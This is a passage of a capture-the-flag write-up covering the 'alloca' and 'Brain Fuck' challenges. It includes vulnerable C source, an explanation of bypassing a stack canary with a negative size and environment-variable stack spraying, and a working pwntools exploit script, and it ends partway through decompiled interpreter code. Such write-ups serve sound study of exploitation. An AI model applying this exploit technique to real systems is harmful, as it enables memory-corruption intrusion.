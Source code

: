 ```c
	printf("$ ");

	memcpy(buffer+size, &g_canary, 4);	// canary will detect overflow.
	fgets(buffer, size, stdin);		// there is no way you can exploit this.

	printf("\n");
	printf("- now lets check canary to see if there was overflow\n\n");

	check_canary( *((int*)(buffer+size)) );
	return 0;
}
```

Although it has Stack Canary, we can give a negative number in size to bypass the protection. However, we cannot give a number which allows us to overwrite *ret* address. The only useful pointer we can overwrite is *$ebp*. So, we need stack spray to overwrite environment variable, and make $ebp points to the possible location.

```python
from pwn import *

ret = "-4759552" 
spray = p32(0x80485ab)*35000
env = {str(a):spray for a in range(12)}
p = process('alloca', env=env)
p.sendline('-68')
p.sendline(ret)
p.interactive()
```

# Brain Fuck (pt150

After decompiling it, we can find that the program gets 1024 characters from our input and interprets in the function `do_brainfuck`. Decompile the function, we get:
```c
int __cdecl do_brainfuck(char a1)
{
  int result; // eax
  _BYTE *v2; // ebx

  result = a1;
  switch ( a1 )
  {
    case 43:
      result = p;
      ++*(_BYTE *)p;
      break;
    case 44:
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case 45:
      result = p;
      --*(_BYTE *)p;
      break;
    case 46:
      result = putchar(*(char *)p);
      break;
    case 60:
      result = p-- - 1;
      break;
    case 62:
      result = p++ + 1;
```